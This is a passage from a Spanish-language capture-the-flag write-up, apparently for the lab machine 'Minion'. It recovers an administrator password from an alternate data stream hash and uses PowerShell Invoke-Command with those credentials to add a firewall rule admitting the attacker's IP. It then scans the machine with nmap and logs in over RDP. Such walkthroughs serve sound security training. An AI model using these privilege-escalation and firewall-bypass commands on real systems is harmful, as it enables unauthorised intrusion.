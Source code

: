 
```bash
type C:\Temp\backup.zip:pass
```

y encontramos un hash. Si lo pasamos por [crackstation](https://crackstation.net/) nos da la contraseña.

#### Ejecucion de comandos como administrator con ScriptBlock {-}

Aqui el problema es que no tenemos conectividad con **smb** o otros puertos para conectarnos como root. La idea
aqui seria de ejecutar comandos como administrator para cambiar la reglas del Firewall.

```bash
$user = 'minion\administrator'; $pw = '1234test'; $secpw = ConvertTo-SecureString $pw - AsPlainText -Force; $cred = New-Object \
System.Management.Automation.PSCredential $user, $secpw; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock {whoami}

#Output
minion\administrator
```

Aqui vemos que podemos ejecutar comando como el usuario administrator. Vamos a por el cambio en el firewall

```bash
$user = 'minion\administrator'; $pw = '1234test'; $secpw = ConvertTo-SecureString $pw - AsPlainText -Force; $cred = New-Object \
System.Management.Automation.PSCredential $user, $secpw; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock \
{New-NetFirewallRule -DisplayName setenso -RemoteAddress 10.10.14.8 -Direction inbound -Action Allow}

#Output
minion\administrator
```

Si ahora desde la maquina de atacante le hacemos un nmap para ver los puertos abiertos

```bash
nmap -sS --min-rate 5000 --open -vvv -n -Pn -p- 10.10.10.57
```

vemos que tenemos todo expuesto y como hay el puerto 3389 que es el puerto **RDP** ya nos podemos conectar con Remmina por ejemplo.


![miio-remia](/assets/images/minion-remina.png) 
Y ya estamos en la maquina como administrator
